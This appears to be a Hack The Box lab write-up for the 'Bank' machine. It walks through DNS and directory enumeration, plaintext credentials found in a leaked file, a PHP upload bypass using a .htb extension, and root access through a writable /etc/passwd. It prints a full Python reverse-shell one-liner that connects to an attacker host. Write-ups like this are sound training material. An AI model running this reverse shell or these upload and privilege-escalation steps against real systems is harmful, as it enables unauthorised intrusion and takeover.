



## infocard



Bank is a medium-difficulty machine that involves domain enumeration, bypassing file upload restrictions to gain shell access, and escalating privileges by modifying a writable system file. This writeup details each step taken to fully compromise the machine.

## Enumeration

We begin with an Nmap scan to identify open ports and services:

```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-04 01:10 EST
Nmap scan report for 10.10.10.29
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.98 seconds
```
The scan reveals three open ports:
- **Port 22**: SSH (OpenSSH 6.6.1p1)
- **Port 53**: DNS (ISC BIND 9.9.5-3ubuntu0.14)
- **Port 80**: HTTP (Apache httpd 2.4.7)

The HTTP service displays the default Apache landing page, indicating that further enumeration is required.

### DNS Enumeration

Since **port 53 (DNS)** is open, we attempt a **zone transfer** using `dig`:


This reveals several subdomains:

- **bank.htb**
- **[www.bank.htb](http://www.bank.htb/)**
- **chris.bank.htb**
- **ns.bank.htb**

Adding these subdomains to the `/etc/hosts` file allows us to explore them further. While most subdomains redirect to the default Apache page, `bank.htb` leads to a login page.



After testing default credentials and SQL injection, no vulnerabilities are found. 

### Directory Enumeration

Using `ffuf`, we perform directory enumeration on `bank.htb`:


This uncovers a directory named `balance-transfer`, which contains `.acc` files. One of these files, smaller in size, contains plaintext credentials for the user `chris`:

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

## Gaining shell

### Exploiting the File Upload Feature

Using the credentials `chris:!##HTBB4nkP4ssw0rd!##`, we log in and discover a ticket system (`support.php`) that allows file uploads. Attempting to upload a PHP shell fails due to MIME type restrictions. However, by crafting a file with a PNG MIME type and PHP content, we successfully upload the file. Despite this, the file is not executed due to the `.png` extension.


Upon inspecting the source code, we find a debug comment:

`<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->`

This indicates that files with the `.htb` extension are executed as PHP. We create a payload with the `.htb` extension and upload it. Accessing `bank.htb/uploads/test.htb` provides a web shell as the `www-data` user.


### Establishing a Reverse Shell

Using the web shell, we establish a reverse shell to our attacker machine:

```python3
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker-ip",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The user flag is located in Chris's home directory:



## Privilege Escalation

### Exploiting a Writable `/etc/passwd` File

During enumeration, we discover that the `/etc/passwd` file is writable:


We add a new user with root privileges by appending the following line to `/etc/passwd`:


## Conclusion

The Bank machine emphasizes the significance of secure file upload handling and proper input validation. By exploiting a file upload vulnerability and misconfigured file extension handling, we gained a foothold on the system. Privilege escalation was achieved through writable sensitive files, demonstrating the importance of enforcing least privilege and monitoring for misconfigurations to enhance security.